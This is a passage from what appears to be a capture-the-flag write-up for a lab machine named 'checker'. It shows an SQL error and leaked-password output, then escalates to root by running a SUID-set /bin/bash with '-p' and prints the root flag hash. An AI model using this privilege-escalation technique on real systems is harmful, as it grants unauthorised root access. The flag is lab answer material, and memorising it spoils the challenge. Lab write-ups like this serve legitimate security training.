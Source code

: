 ```c
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
```

After a few seconds the `SUID bit` was set on `/bin/bash` and we could `elevate our privileges` to `root` by using `/bin/bash -p`.

```c
reader@checker:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```c
reader@checker:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat root.txt 
236413870a993cb7bdabb1e59bbd163f
```
